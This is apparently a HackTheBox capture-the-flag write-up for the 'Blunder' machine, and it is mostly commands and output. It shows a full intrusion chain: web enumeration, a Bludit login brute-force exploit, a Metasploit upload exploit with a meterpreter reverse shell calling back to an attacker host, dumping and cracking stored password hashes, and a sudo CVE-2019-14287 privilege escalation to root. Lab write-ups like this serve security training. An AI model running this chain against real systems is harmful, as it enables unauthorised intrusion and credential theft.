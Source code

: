 # BLUNDER

### User Flag

```
user@kali:~/hacking/blunder$ nmap -T5 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 15:25 CEST
Nmap scan report for 10.10.10.191
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http

Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Looking at the source code of the webpage we will find that the page is using Bludit CMS, and the version is 3.9.2. If we search for exploits, we will find two. [CVE 2019-16113](https://www.exploit-db.com/exploits/48701) will give us a shell in the victim machine, but we need a user and password of bludit. To get this information, we will use [CVE 2019-17240](https://www.exploit-db.com/exploits/48746), which let us doing a bruteforce attack without bludit banning our IP address. 

First we will run dirbuster, gathering more useful information inside the webserver:
- Nnumber of threads: 8
- Wordlist: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- Extensions: `php`, `txt`, `html`

After some minutes, we find **the blunder**: a file called `todo.txt` (http://10.10.10.191/todo.txt). Here we find a possible user name: `fergus`.

Now we know a possible user, the best way to try to guess the password is generating our own wordlist.

```
user@kali:~/hacking/blunder$ cewl -w customwordlist.txt -d 5 -m 7 http://10.10.10.191/
```

Now we are able to use the exploit and hope we find the password. In my case, I didn't have the dependencies to run the ruby script, so I installed them:

```
user@kali:~/hacking/blunder$ sudo gem install docopt
user@kali:~/hacking/blunder$ sudo gem install httpclient
```

And now I am able to run the exploit:

```
user@kali:~/hacking/blunder$ ruby 48746.rb -r http://10.10.10.191/admin -u fergus -w customwordlist.txt
ruby: warning: shebang line ending with \r may cause problems
[*] Trying password: Plugins
[*] Trying password: Include
[*] Trying password: service
...
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

With the user and password, we can move to the other exploit, which can be found in metasploit:

```
user@kali:~$ msfconsole
...
msf5 > search bludit

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


msf5 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > options

...

msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.201
LHOST => 10.10.14.201
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > run

...

meterpreter >
```

Now, we can login in a shell with `shell` meterpreter command, where we will see that we are user `www-data`. 
To get at least the prompt of the shell, we may use this trick:

```
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ 
```

We can search for the php files inside the server, and we will find an interesting file: `/var/www/bludit-3.9.2/bl-content/databases/users.php`. Here we can find fergus user (which we used to run the exploit) and also the admin user, with their respective hash:

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat ./databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        ...
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        ....
    },
    "fergus": {
        ...
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        ...
    }
}
```

If we continue looking for files, we will find the old bludit directory too:

```
www-data@blunder:/var/www$ ls -l
ls -l
total 12
drwxr-xr-x 8 www-data www-data 4096 May 19 15:13 bludit-3.10.0a
drwxrwxr-x 8 www-data www-data 4096 Apr 28 12:18 bludit-3.9.2
drwxr-xr-x 2 root     root     4096 Nov 28  2019 html
```

Inside version `bludit-3.10.0a` directory we will find the `users.php` file too, which contains:

```
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        ...
}
```

The interesting thing is that hugo is a user who exists in the linux system:

```
www-data@blunder:/var/www$ grep -i 'hugo' /etc/passwd
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
```


We may try our luck and trying to decrypt the hash first instead moving to a bruteforce search. I use a SHA1 decrypt tool, like the webpage `https://md5decrypt.net/en/Sha1/`. Since the password was very weak, it
was in the databse, so we can continue with hugo passsword: `Password120`.

```
www-data@blunder:/var/www$ su -l hugo
Password: Password120

hugo@blunder:~$ cat user.txt
```

### Root Flag

I will use [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to search for more vulnerabilities. I download the script and upload to `/tmp` in the machine with `upload` command in metasploit. Then, I logged in
using hugo's account:

```
hugo@blunder:~$ cp /tmp/linpeas.sh .
hugo@blunder:~$ ./linpeas.sh &> out.txt
```

Later we can inspect the file with `less -R`. Here we can see that the sudo version may be vulnerable to some exploit. The sudo version is `sudo 1.8.25p1`. The next step is to try the [CVE 2019-14287](https://www.exploit-db.com/exploits/47502) exploit:

```
hugo@blunder:~$ python3 47502.py
Enter current username :hugo
hugo
Password: Password120

Lets hope it works
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
```




